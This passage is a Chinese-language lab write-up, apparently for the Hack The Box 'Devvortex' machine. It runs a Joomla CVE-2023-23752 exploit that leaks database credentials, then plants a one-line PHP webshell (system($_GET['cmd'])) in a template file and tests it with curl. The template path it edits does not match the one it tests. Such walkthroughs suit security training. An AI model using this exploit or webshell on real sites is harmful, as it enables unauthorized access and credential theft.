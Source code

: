    ```
     author (https://pwn.by/noraj / https://twitter.com/noraj_rawsec)
     company (https://www.acceis.fr / https://twitter.com/acceis)
     source (https://github.com/Acceis/exploit-CVE-2023-23752)
   ```

   CVE-2023-23752 是一种身份验证绕过，会导致信息泄露。大多数公开的漏洞利用绕过来泄露系统配置，其中包含 Joomla!明文形式的 MySQL 数据库凭据。

   

   根据用法运行该利用脚本，得到了一组数据库的凭证

   ```
   └─# ruby 51334.rb http://dev.devvortex.htb               
   Users
   [649] lewis (lewis) - lewis@devvortex.htb - Super Users
   [650] logan paul (logan) - logan@devvortex.htb - Registered
   
   Site info
   Site name: Development
   Editor: tinymce
   Captcha: 0
   Access: 1
   Debug status: false
   
   Database info
   DB type: mysqli
   DB host: localhost
   DB user: lewis
   DB password: P4ntherg0t1n5r3c0n##
   DB name: joomla
   DB prefix: sd4fg_
   DB encryption 0
   ```

   使用该凭证登录了/administrator。



# 02、获取初始立足点

​		作为超级用户登录 Joomla!管理网络界面后，攻击者有两种简单的路径来执行任意代码。比如修改现有模板来插入恶意代码，或者是安装恶意插件，例如[Joomla-webshell-plugin](https://github.com/p0dalirius/Joomla-webshell-plugin)。

1. 点击【System】-->【Templates】下的site_Templates

   ![image-20231128152801899](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311281651110.png)



2. 选择一个模板的文件修改，这边选择的是templates/protostar/error.php，在里面追加一行`system($_GET['cmd']);`php代码来实现命令执行

   ![image-20231128153052030](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202311281651294.png)

3. 测试webshell，命令执行成功

   ```
   └─# curl -s http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=id
   uid=33(www-data) gid=33(www-data) groups=33(www-data)
   ```
